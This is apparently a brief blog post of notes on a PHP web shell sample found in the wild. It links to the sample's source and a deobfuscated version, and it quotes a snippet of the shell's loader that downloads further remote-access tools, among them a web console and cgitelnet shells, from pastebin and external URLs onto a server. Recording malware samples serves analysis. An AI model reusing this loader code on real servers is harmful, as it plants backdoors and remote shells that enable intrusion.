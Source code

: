 ```yaml
---
layout: post
title:  "Example phpshell"
date:   2020-04-24 12:30:45 +0100
categories:
---
```


# src:

`https://gist.github.com/delyee/bd017c6bb9473191b7eb312f1fce3d1d`

# cnc?

<blockquote class="imgur-embed-pub" lang="en" data-id="a/mpcPphv"><a href="//imgur.com/a/mpcPphv"></a></blockquote><script async src="//s.imgur.com/min/embed.js" charset="utf-8"></script>

# other utils

```php
if ($name === "adminer") $get = array(
        "https://www.adminer.org/static/download/4.3.1/adminer-4.3.1.php",
        "adminer.php"
    );
    elseif ($name === "webconsole") $get = array(
        "https://pastebin.com/raw/2i96fDCN",
        "webconsole.php"
    );
    elseif ($name === "cgitelnet1") $get = array(
        "https://pastebin.com/raw/Lj46KxFT",
        "idx_cgi/cgitelnet1.idx"
    );
    elseif ($name === "cgitelnet2") $get = array(
        "https://pastebin.com/raw/aKL2QWfS",
        "idx_cgi/cgitelnet2.idx"
    );
    elseif ($name === "LRE") $get = array(
        "https://pastebin.com/raw/PVPfA21i",
        "makman.php"
    );
```

# deobf:

`https://gist.github.com/delyee/b564cb0b4d5230d748d6c6e0b83691eb`



